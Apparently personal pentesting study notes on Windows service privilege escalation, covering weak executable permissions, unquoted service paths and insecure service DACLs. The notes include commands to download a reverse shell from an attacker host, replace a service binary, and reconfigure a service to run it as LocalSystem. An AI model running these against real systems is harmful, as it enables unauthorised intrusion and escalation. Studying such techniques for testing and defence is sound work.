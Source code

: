 ```
Each service on a Windows machine will have an associated executable which will be run by the SCM whenever a service is started. It is important to note that service executables implement special functions to be able to communicate with the SCM, and therefore not any executable can be started as a service successfully. Each service also specifies the user account under which the service will run.
command: sc <server-name> qc [service-name] <buffer-size>
BINARY_PATH_NAME: path of executable
SERVICE_START_NAME: account used to run the service
Discretionary Access Control List (DACL): indicates who has permission to start, stop, pause, query status, query configuration, or reconfigure the service, amongst other privileges.
//use process hacker
//all service configs are stored at: HKLM\SYSTEM\CurrentControlSet\Services\
ImagePath: path of executable
ObjectName: account used to run the service
Security: subkey for DACL config of a service

Insecure Permissions on Service Executables
sc qc <service-name>
icacls <executable-path>
//if you see modifying permissions for everyone then create a reverse shell with format exe-service and host a server on your <attacking-ip> and wget the rev shell: wget http://<attacking-ip>:<port>/reverse_shell.exe
cd <executable-directory>
replace the real executable service with the reverse shell downloaded:
move original-service.exe original-service.exe.bkp
move C:\Users\<username>\reverse_shell.exe original-service.exe
//switch from powershell to cmd 
sc stop <service-name>            //sc is an alias for Set-Content
sc start <service-name>
#catch the reverse shell using netcat or socat or whatever you like bleh :p
``````
Unquoted Service Paths
//an obscure feature for forcing a service into running arbitrary executables when we directly can’t write into service executables
/*While this sounds trivial, most of the service executables will be installed under C:\Program Files or C:\Program Files (x86) by default, which isn't writable by unprivileged users. This prevents any vulnerable service from being exploited. There are exceptions to this rule: - Some installers change the permissions on the installed folders, making the services vulnerable. - An administrator might decide to install the service binaries in a non-default path. If such a path is world-writable, the vulnerability can be exploited. */
//check for BUILT_IN\Users for AD and WD permissions (allows you to create sub directories and files under the queried folder)
//there will be different commands and arguments to be executed if the path file is unquoted, create and place a reverse shell in place of any of the writable directory
sc stop “service name”
sc start “service name”
catch the reverse shell
``````
``````
Insecure Service Permissions
Should the service DACL (not the service's executable DACL) allow you to modify the configuration of a service, you will be able to reconfigure the service. This will allow you to point to any executable you need and run it with any account you prefer, including SYSTEM itself.
//use accesschk from SysInternals suite
accesschk64.exe -qlc <service-name>       #check DACL for service
check for SERVICE_ALL_ACCESS in BUILTIN\Users (any user can reconfigure service)
//create a server and transfer a exe-service format reverse shell and place it in the desirable folder
icacls <path-to-reverse-shell> /grant Everyone:F         #granting everyone the permission to execute the payload
sc config <service-name> binPath= “<path-to-reverse-shell>” obj=LocalSystem
sc stop <service-name>
sc start <service-name>
//catch the reverse shell with higher privilege
``````
``````